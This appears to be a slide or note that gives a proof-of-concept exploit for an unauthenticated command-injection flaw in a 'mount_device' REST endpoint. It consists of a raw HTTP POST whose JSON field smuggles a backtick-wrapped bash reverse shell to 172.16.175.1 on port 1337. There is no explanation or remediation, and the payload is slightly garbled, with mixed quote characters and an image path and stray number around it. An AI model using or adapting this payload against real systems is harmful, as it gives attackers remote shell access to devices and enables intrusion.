

# doPostMountDevice Unauthenticated Command Injection Vulnerability
POST /rest/commonlog/log_setting/mount_device HTTP/1.1
Host: [host]:1812
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
{" mount_device":”\`bash -i >& /dev/tcp/172.16.175.1/1337 0>&1\`","cmd":" mount"}

76